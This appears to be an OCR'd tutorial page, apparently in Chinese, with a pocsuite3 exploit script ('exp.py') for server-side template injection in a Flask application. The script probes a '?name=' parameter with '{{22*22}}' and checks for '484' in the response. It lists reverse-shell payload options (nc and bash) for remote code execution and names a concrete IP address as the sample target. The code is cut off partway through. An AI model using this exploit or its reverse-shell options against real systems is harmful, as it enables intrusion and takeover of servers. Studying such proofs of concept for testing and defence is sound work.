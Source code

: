 ```python
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
写出exp.py:
```python
from collections import OrderedDict
from urllib.parse import urljoin
import re
from pocsuite3.api import POCBase, Output, register_poc, logger, requests, OptDict, VUL_TYPE
from pocsuite3.api import REVERSE_PAYLOAD, POC_CATEGORY


class DemoPOC(POCBase):
    vulID = '1.1'
    version = '1.1'
    author = ['1.1']
    vulDate = '1.1'
    createDate = '1.1'
    updateDate = '1.1'
    references = ['flask']
    name = 'flask'
    appPowerLink = 'flask'
    appName = 'flask'
    appVersion = 'flask'
    vulType = VUL_TYPE.CODE_EXECUTION
    desc = '''
        
    '''
    samples = ['96.234.71.117:80']
    category = POC_CATEGORY.EXPLOITS.REMOTE

    def _options(self):
        o = OrderedDict()
        payload = {
            "nc": REVERSE_PAYLOAD.NC,
            "bash": REVERSE_PAYLOAD.BASH,
        }
        o["command"] = OptDict(selected="bash", default=payload)
        return o

    def _verify(self):
        result = {}
        path = "?name="
        url = self.url + path
        #print(url)
        payload = "{{22*22}}"
        #print(payload)
        try:
            resq = requests.get(url + payload)
            if resq and resq.status_code == 200 and "484" in resq.text:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = url
                result['VerifyInfo']['Name'] = payload
        except Exception as e:
            return
        return self.parse_verify(result) 

    def trim(str):
        newstr = ''
        for ch in str:          #遍历每一个字符串
```